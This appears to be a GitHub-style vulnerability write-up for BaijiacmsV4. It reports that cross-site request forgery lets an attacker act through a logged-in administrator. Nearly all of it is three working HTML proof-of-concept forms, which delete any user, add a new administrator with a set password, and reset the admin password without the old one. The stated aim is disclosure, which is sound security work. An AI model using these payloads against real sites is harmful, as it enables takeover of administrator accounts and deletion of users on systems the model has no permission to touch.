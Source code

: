 # why make this

BaijiacmsV4 does not open the issue, it is only possible to write a vulnerability here.

After administrator logged in, attacker can use CSRF add a new administrator or delete any user(include administrator), you can even change admin account password without using any password.

# poc
## del any user

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php">
        <input type="hidden" name="mod" value="site" />
        <input type="hidden" name="op" value="deleteuser" />
        <input type="hidden" name="id" value="3" />
        <!--del user with id -->
        <input type="hidden" name="act" value="manager" />
        <input type="hidden" name="do" value="user" />
        <input type="hidden" name="beid" value="1" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```
## add a user(admin)

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=edituser&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="id" value="" />
        <input type="hidden" name="is&#95;admin" value="1" />
        <!-- add a admin -->
        <input type="hidden" name="store" value="0" />
        <input type="hidden" name="username" value="tester1" />
        <input type="hidden" name="newpassword" value="123456" />
        <input type="hidden" name="confirmpassword" value="123456" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```
## change admin password

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=changepwd&id=1&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="username" value="admin" />
        <!--only use username -->
        <input type="hidden" name="newpassword" value="12345678" />
        <input type="hidden" name="confirmpassword" value="12345678" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4;" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```